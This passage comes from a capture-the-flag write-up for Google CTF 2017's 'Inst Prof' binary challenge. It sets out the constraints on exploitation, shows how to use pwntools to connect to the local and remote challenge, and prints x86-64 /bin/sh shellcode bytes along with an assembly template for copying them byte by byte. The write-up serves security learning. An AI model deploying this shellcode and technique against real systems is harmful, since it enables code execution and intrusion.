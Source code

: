 1. We have to do it using instructions formed with 4 bytes as max (remember the process will only read 4 bytes each time you send something).

2. Furthermore, If the instruction provided is a 4-byte one, it will be executed `4096` (or `0x1000`) times because it will be inserted inside a loop.  
If it has less, we could avoid this behavior adding an extra byte: `c3` which is the opcode for the return statement. If we use it we will break the mentioned loop.

3. We need an **address** to write these bytes to and the section this address belongs to must have execution permissions.

4. We will need to save some stuff on the registers, i.e. the address we are going to copy our shellcode to. We will need to identify which registers are **not used** from our first input to the next one.

---

#### How to

To code an exploit, I decided to use python along with a fully recommended library called [pwntools](https://github.com/Gallopsled/pwntools).  
The main reasons to use this library are:

1. It allows us to start a local process or to connect to a remote one with a single line and in a simple way. Just like this:  
```python
# Execute the local binary
p = process("./inst_prof")
# Connect to the remote process
p = remote("inst-prof.ctfcompetition.com", 1337)
```

2. Instead of sending the opcodes directly we can use the `asm()` method. Have in mind we should tell 
`pwntools` which architecture and operating system we are expecting. We do this through the `context()` 
method. An example of this would be:  
```python
context(arch='amd64', os='linux')
p.send(asm('mov r13, [rsp]'))
```

All right, so first we need a shellcode. I am using [my own](/assets/GoogleCTF2017/Inst Prof/shellcode.asm), but 
you can search for [another](https://www.google.com/search?q=shellcode+bin+sh+x64+linux) if you want (have in mind that not all of them works).
```python
shellcode = (
    "\xb0\x3b\x99\x48\xbb\x2f"
    "\x62\x69\x6e\x2f\x2f\x73"
    "\x68\x52\x53\x54\x5f\x52"
    "\x57\x54\x5e\x0f\x05"
)
```

We can copy the shellcode byte by byte using the following asm instruction:
```asm
mov byte [r15], {byte}
```
